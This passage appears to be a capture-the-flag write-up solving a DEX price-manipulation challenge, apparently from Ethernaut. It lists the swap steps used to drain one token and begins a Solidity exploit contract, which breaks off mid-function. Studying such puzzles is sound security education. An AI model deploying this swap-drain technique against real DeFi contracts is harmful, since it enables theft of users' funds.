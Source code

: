 ## Disclaimer

If you want to solve this challenge on your own, stop reading here and try to implement a solution based on the hints above. The complete solution is provided below.

---

## Solution

### The Attack Vector

Our solution performs a series of swaps to manipulate the price and drain the DEX:

1. Deploy a contract that can interact with the DEX
2. Approve the DEX to spend our tokens
3. Perform a series of swaps (5-6 swaps total)
4. Calculate the exact amount for the final drain
5. Execute the final swap to drain all of one token

### Complete Exploit Contract

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import "@openzeppelin/contracts/token/ERC20/IERC20.sol";

interface IDex {
    function token1() external view returns (address);
    function token2() external view returns (address);
    function swap(address from, address to, uint256 amount) external;
    function approve(address spender, uint256 amount) external;
    function balanceOf(address token, address account) external view returns (uint256);
    function getSwapPrice(address from, address to, uint256 amount) external view returns (uint256);
}

contract DexExploit {
    address public dex;
    address public token1;
    address public token2;
    address public owner;

    constructor(address _dex) {
        dex = _dex;
        owner = msg.sender;
        token1 = IDex(dex).token1();
        token2 = IDex(dex).token2();
    }

    function exploit() external {
        require(msg.sender == owner, "Not the owner");
        
        // Approve the DEX to spend our tokens
        IERC20(token1).approve(dex, type(uint256).max);
        IERC20(token2).approve(dex, type(uint256).max);
        
        // Perform the swap sequence
        // Swap 1: All token1 -> token2
        swapAll(token1, token2);
        
        // Swap 2: All token2 -> token1
        swapAll(token2, token1);
        
```